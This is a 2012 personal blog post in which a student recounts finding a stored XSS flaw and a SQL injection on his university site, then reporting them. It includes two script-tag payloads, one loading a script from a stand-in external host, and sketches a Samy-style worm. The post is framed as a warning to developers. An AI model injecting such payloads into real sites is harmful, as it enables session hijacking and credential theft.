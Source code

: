 +++
title = "How I hacked a site"
date = 2012-08-30T00:58:00Z
updated = 2013-08-23T02:40:42Z
tags = ["Programming", "websites", "xss", "Hacking", "sql injection"]
blogimport = true
author = "Ivan du Toit"
authorLink = "https://plus.google.com/109733145121386015159"
+++

I did no harm so don't start booing me before you read the whole story, I just went far enough to prove that in fact there was an exploitable security issue -  and I must admit also showed off to one of my friends by greeting him by name once he logged into the site. I also reported the vulnerabilities to the appropriate people.<br /><h3>How this came about.</h3><div><br /></div>Exam time is a weird time for students, they start experiencing the taste of the holidays while actually performing under the academic pressure of having to pass.<br /><br />In the middle of my exams I was having problems sleeping due to the stress  of the exams. During one of these periods of stress induced insomnia I decided that I would rather be doing something than just lying in bed. So I grabbed my netbook and started to surf the net, at some stage I ended up on the computer science site to check if there was any news related to my course. So there I was 2:30 AM browsing around the site when I had this crazy idea: Is this site secure? I don't know why I had that thought but there it was and since I wasn't sleeping anyway, so I decided to give the site a test.<br /><br />First I had a crack at the user login form but that was hardened against my primitive attacks, but is this true for the whole site or is there some area that the other students before me have not yet checked? So I tried a few of the other forms on the site for <a href="http://en.wikipedia.org/wiki/SQL_injection">SQL injection</a> vulnerabilities but found none but that is to be expected. But what I did find was a <a href="http://en.wikipedia.org/wiki/Cross-site_scripting">XSS</a> vulnerability in the member details form. I could inject a script tag that was not escaped into my surname.  But you might say that is not a big deal is it? It seems so innocent to add<br /><div>{{< highlight html >}}&lt;script&gt;alert("Hello World");&lt;/script&gt; &nbsp;{{< /highlight >}}</div>to&nbsp;my surname. But I could also change that to<br /><div><div>{{< highlight html>}}&lt;script src="example.com/evilScript.js"&gt;&lt;/script&gt;{{< /highlight >}}</div></div><br />Which does not look half as cute does it? After some brain storming I thought of ways to infect other users by updating there details in the back ground to include my script in there surname! This infection happens whenever my surname was rendered by the browser! This boys and girls is a worm&nbsp;similar&nbsp;to the<a href="http://en.wikipedia.org/wiki/Samy_(computer_worm)"> myspace worm</a>! So it has gone viral now what?<br /><br />No it can not start the zombie&nbsp;apocalypse&nbsp;(I&nbsp;<strike>think&nbsp;</strike>hope). But it could do all of the following: <br /><ul><li><a href="http://en.wikipedia.org/wiki/Session_hijacking">Session Hijacking</a> </li><li>Steal passwords&nbsp;</li><li>Download other students code for assignments&nbsp;</li><li>Steal other students and lecturer's email address and other hidden personal information.</li><li>Post content as a lecturer or student.</li></ul><div>Pretty scary stuff for suck a innocent vulnerability!</div><div>I also found a SQL injection vulnerability but that to me is not very special because it is very common, yet so easy to prevent that I am just astounded that it exists.<br /><h3>Moral of the story</h3><div><br /></div>So yeah that is how I hacked a site.  I post about the experience both as a warning to other developers and to myself.<br /><ul><li>Innocent looking vulnerabilities can have very grave consequences.</li><li>Your security is only as strong as your weakest point.</li></ul>If this post makes just 1 site more secure I will be very happy. So go code but be safe.</div>
